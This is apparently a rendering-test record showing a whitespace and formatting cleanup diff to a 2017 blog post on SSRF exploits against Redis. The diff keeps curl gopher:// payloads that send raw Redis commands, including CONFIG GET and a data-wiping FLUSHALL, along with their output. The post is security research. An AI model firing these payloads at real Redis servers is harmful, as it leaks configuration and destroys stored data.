

Before and after one commit to mpchadwick/mpchadwick.github.io, a Jekyll site: the page built from _posts/2017-08-14-ssrf-exploits-against-redis.md, in a window 1280 px wide and 1400 px high, scrolled down 282 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Clean up post

````diff
--- a/_posts/2017-08-14-ssrf-exploits-against-redis.md
+++ b/_posts/2017-08-14-ssrf-exploits-against-redis.md
@@ -17,7 +17,7 @@ selected: true
 As documented in [a blog post titled "Trying to hack Redis via HTTP requests" by the French company, Agarri](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) if simply we curl Redis, it will interpret each line in the HTTP request as a command....
 
 ```
-$ curl -v 127.0.0.1:6379 --max-time 1                                                                            ~
+$ curl -v 127.0.0.1:6379 --max-time 1
 * Rebuilt URL to: 127.0.0.1:6379/
 *   Trying 127.0.0.1...
 * TCP_NODELAY set
@@ -38,7 +38,9 @@ $ curl -v 127.0.0.1:6379 --max-time 1
 curl: (28) Operation timed out after 1002 milliseconds with 148 bytes received
 ```
 
-> :bulb: **Tip:** Note the usage of the `max-time` flag here. It's important to understand that [by default Redis won't close the connection](https://redis.io/topics/clients#client-timeouts) and, [without specifying a timeout, neither will curl](https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html).
+<div class="tout tout--secondary">
+<p>:bulb: <strong>TIP</strong>: Note the usage of the <code>max-time</code> flag here. It's important to understand that <a href="https://redis.io/topics/clients#client-timeouts">by default Redis won't close the connection</a> and, <a href="https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html">without specifying a timeout, neither will curl</a>.</p>
+</div>
 
 [Agarri's post](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) suggests that we can use HTTP request headers or the request POST body to send malicious payloads. While this sounds good in theory, I couldn't get it to work (if you see something I've done wrong let me know!)...
 
@@ -78,7 +80,7 @@ Note: Unnecessary use of -X or --request, POST is already inferred.
 == Info: stopped the pause stream!
 == Info: Closing connection 0
 curl: (28) Operation timed out after 1002 milliseconds with 205 bytes received
-$ redis-cli                                                                                                      ~
+$ redis-cli
 127.0.0.1:6379> config get maxmemory
 1) "maxmemory"
 2) "999999999999999"
@@ -92,7 +94,7 @@ This is approach is likely more versatile than using the POST body or HTTP reque
 Here's what it would look like to get Redis to divulge its `maxmemory` configuration value.
 
 ```
-$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1                                      ~
+$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1
 *2
 $9
 maxmemory
@@ -149,7 +151,7 @@ It's very likely that this will give them access to sensitive information such a
 There are countless DoS opportunities with the ability to send arbitrary commands to the Redis instance. The first thing that springs to mind is the repeatedly send `FLUSHALL` commands, preventing Redis from ever effectively storing anything.
 
 ```
-$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1                                                         ~
+$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1
 *   Trying 127.0.0.1...
 * TCP_NODELAY set
 * Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
````
